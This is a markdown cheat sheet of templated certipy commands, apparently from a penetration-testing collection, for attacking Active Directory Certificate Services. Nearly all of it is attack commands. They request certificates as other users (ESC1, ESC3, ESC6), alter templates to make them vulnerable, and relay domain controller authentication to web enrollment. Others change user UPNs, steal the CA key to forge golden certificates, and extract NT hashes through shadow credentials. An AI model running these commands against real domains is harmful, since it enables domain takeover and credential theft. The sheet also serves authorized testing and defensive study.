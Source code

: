 # certipy

% adcs, certificate, pki, windows, Active directory, template, shadow credential

## certipy - list certificate templates
#platform/linux #target/remote #cat/RECON
```
certipy find -u <user>@<domain> -p '<password>' -dc-ip <dc-ip> 
```

## certipy - request certificate
#platform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority>
```

## certipy - authenticate with pfx certificate
#platform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file> 
```

## certipy - authenticate through LDAP (Schannel) with pfx certificate
#platform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file> -dc-ip <dc-ip> -ldap-shell
```

## certipy - Golden Certificate - steal CA certificate and private key
#platform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain> -p '<password>' -backup -ca <certificate-authority> -target-ip <ca-ip>
```

## certipy - Golden Certificate - forge certificate
#platform/linux #target/remote #cat/ATTACK
```
certipy forge -ca-pfx <pfx-file> -upn <user>@<domain> -crl ldap://<dc-ip>:389
```

## certipy - request certificate for another user - ESC1 - ESC6
#platform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority> -upn <targeted-user>@<domain>
```

## certipy - request certificate on behalf of with Certificate Request Agent certificate - ESC3
#platform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority> -on-behalf-of '<NetBIOS-domain-name>\<targeted-user>' -pfx <pfx-file>
```

## certipy - modify template in order to make it vulnerable to ESC1 - ESC4
#platform/linux #target/remote #cat/ATTACK
```
certipy template -u <user>@<domain> -p '<password>' -template <template> -save-old
```

## certipy - Issue certificate for specific request id - ESC7
#platform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain> -p '<password>' -ca <certificate-authority> -issue-request <csr-id>
```

## certipy - relay authentication to CA Web Enrollment - ESC8
#platform/linux #target/remote #cat/ATTACK
```
certipy relay -ca <ca-fqdn>
```

## certipy - relay domain controller authentication to CA Web Enrollment - ESC8
#platform/linux #target/remote #cat/ATTACK
```
certipy relay -ca <ca-fqdn> -template 'DomainController'
```

## certipy - Modify user upn to another one - ESC9 - ESC10
#platform/linux #target/remote #cat/ATTACK
```
certipy account update -u <user>@<domain> -p '<password>' -user <targeted-user> -upn <administrator-user>
```

## certipy - Get NT hash - Shadow Credential
#platform/linux #target/remote #cat/ATTACK
Full Chain exploit of Shadow Credential: Create a Key Credential, Authenticate to get NT hash and TGT, and remove the Key Credential
```
certipy shadow auto -u <user>@<domain> -p '<password>' -account <targeted-user>
```